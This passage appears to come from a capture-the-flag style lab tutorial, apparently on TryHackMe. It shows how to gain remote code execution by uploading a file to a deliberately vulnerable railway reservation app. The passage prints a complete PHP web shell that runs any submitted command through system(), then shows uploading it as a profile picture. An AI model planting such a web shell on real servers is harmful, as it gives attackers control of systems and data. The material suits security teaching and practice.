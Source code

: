 Okay, now that we're familiar with a remote code execution vulnerability and how it works, let's take a look at how we would exploit it!

### Practice Makes Perfect

To understand how a file upload vulnerability can result in an RCE, the best approach is to get some hands-on experience with it. A handy (and ethical) way to do this is to find and download a reputable open-source web application which has this vulnerability built into it. Many open-source projects exist in places like GitHub, which can be run in your own environment to experiment and practice. In today's task, we will demonstrate achieving RCE via unrestricted file upload within an [open-source railway management system](https://github.com/CYB84/CVE_Writeup/tree/main/Online%20Railway%20Reservation%20System) that has this vulnerability [built into it](https://github.com/CYB84/CVE_Writeup/blob/main/Online%20Railway%20Reservation%20System/RCE%20via%20File%20Upload.md).&#x20;

### Exploiting RCE via File Upload

Now we're going to go through how this vulnerability can be exploited. For now, you can just read along, but an opportunity to put this knowledge into practice is coming up. Once an RCE vulnerability has been identified that can be exploited via file upload, we now need to create a malicious file that will allow remote code execution when uploaded.

Below is an example PHP file which could be uploaded to exploit this vulnerability. Using your favorite text editor, copy and paste the below code and save it as `shell.php`.

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```

The above script, when accessed, displays an input field. Whatever is entered in this input field is then run against the underlying operating system using the `system()` PHP function, and the output is displayed to the user. This is the perfect file to upload to the vulnerable rail system reservation application. The vulnerability is surrounding the upload of a new profile image. So, to exploit it, we navigate to the profile picture page:

![Railway profile page](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053142390.png)

Instead of a new profile picture, we can upload our malicious PHP script and update our profile:

![Profile picture uploaded](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053158718.png)
